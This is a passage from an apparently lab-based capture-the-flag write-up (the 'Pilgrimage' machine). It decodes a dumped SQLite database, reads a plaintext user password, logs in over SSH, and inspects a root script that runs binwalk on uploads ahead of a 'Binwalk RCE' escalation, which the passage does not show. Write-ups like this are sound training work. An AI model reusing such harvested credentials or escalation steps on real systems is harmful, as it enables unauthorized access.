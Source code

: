 {% code overflow="wrap" %}
```
$ cat output| xxd -r -p > db
$ file db
db: SQLite 3.x database, last written using SQLite version 3034001, file counter 69, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 69
```
{% endcode %}

We can use `sqlite3` to view the file and find some credentials:

```
sqlite> SELECT * from users;
emily|abigchonkyboi123
```

Then, we can `ssh` as the user `emily`.

<figure><img src="../../.gitbook/assets/image (106) (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Pspy64 --> Binwalk RCE

Running `pspy64` would show this process:

```
2023/06/25 19:03:22 CMD: UID=0    PID=717    | /bin/bash /usr/sbin/malwarescan.sh 
```

Here's the contents of this script:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```
